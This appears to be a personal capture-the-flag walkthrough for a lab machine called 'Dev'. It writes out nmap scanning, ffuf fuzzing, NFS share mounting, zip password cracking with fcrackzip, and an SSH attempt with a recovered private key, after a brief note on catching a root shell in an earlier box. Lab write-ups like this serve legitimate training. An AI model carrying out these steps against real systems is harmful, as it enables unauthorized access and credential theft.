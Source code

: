 ```bash
observer nc listener
#after script runs, should spawn shell
whoami #>> root
cd /root #change to root directory
ls #list files
cat flag.txt #found the flag! 
```

## Dev
VM setup > get IP
Start Nmap scan
```bash
nmap -A -T4 -p- 192.168.138.137
```
- 22 ssh - eh
- 80 http - web server
- 111 - rpcbind , not as advantageous as a beginner
- 2049 - nfs: network file share, potentially mountable interest
- 8080 - http >> phpinfo : looks like info page
- mountd and nlockmgr >> meh, skip
**Looking at 80 and 8080 (http)**
- Check browser for webserver responses
	- can see that they are running Bolt 
- open kali > use ffuf to further enumerate
```bash
#doing 2 - one for each port
ffuf -w /usr/share/wordlists/dirbuster/directory-list2.3-medium:FUZZ -u http://192.168.138.137/FUZZ #for normal port 80

#open in another terminal
ffuf -w /usr/share/wordlists/dirbuster/directory-list2.3-medium:FUZZ -u http://192.168.138.137:8080/FUZZ #added port 8080
```
- multitask while ffuf is running >> can start looking at NFS
```bash
showmount -e 192.168.138.137 #shows path for any mounted fileshares for IP
#utilize to moun to, need directory
mkdir /mnt/dev
mount -t nfs 192.168.138.137:/srv/nfs /mnt/dev #mount from directory into nfs using info from above [path and IP] >> last parameter puts it in said directory

cd /mnt/dev/
ls # check files
unzip save.zip #need password
```
- try getting password with fcrackzip
```bash
#in another terminal

#trying with fcrackzip
apt install fcrackzip
#run fcrack: -v (verbose), -u (unzip), -D (dictionary attack), -p (specify file to attack)
fcrackzip -v -u -D -p /usr/share/ordlists/rockyou.txt save.zip
>> #PW = java101
```
- pass = java101 >> can try back in mount terminal
```bash
#in /mnt/dev/
ls #check
cat todo.txt #read for possible info >> spotted potential user: jp
#id_rsa file is a key, can be used to connect to ssh
ssh -i id_rsa jp@192.168.138.137 #fail > but note info for possiblilities
```
- check back on ffuf for info >> 	check new directories in browser
